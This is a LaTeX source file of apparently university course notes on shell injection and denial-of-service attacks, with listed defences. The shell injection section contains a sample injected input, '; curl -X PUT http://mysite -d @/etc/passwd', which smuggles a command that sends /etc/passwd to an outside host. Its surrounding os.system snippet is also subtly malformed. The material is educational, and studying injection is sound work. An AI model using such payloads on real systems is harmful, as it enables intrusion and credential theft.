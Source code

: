 \documentclass[../CMPUT-404-Notes.tex]{subfiles}
\begin{document}
\section{Shell Injection}
The same as the other injections but instead of SQL you run a command.
A malicious user can insert escape code to run what they want.

Imagine you have a code segment like this?
\begin{listing}[!h]
\begin{verbatim}
os.system("command arg1 arg2 %s", arg3)
\end{verbatim}
\end{listing}
and a user supply this
\begin{listing}[!h]
\begin{verbatim}
; curl -X PUT http://mysite -d @/etc/passwd
\end{verbatim}
\end{listing}

\subsection{Solution}
\begin{itemize}
  \item Use libraries that escape all shell commands
  \item Don't execute commands with a shell, just do direct exec
  \item For example use python's subprocess to spawn and fork the command.
\end{itemize}


\section{DOS and DDOS}
(D)DOS or (Distributed) Denial of Service.
Common DOS methods include:
\begin{itemize}
  \item Spamming
  \item Flooding
  \item Filling queues with information
  \item Sending useless expensive jobs
  \item Using all available resources
\end{itemize}
The distributed DOS is DOS but operated with multiple machines.
Common DDOS methods includes:
\begin{itemize}
  \item Redirecting web traffic
  \item Using DNS poisoning to redirect people
  \item Lying to routers to route traffic to a non router
  \item Sending very slowly
  \item Reading very slowly
\end{itemize}
\end{document}
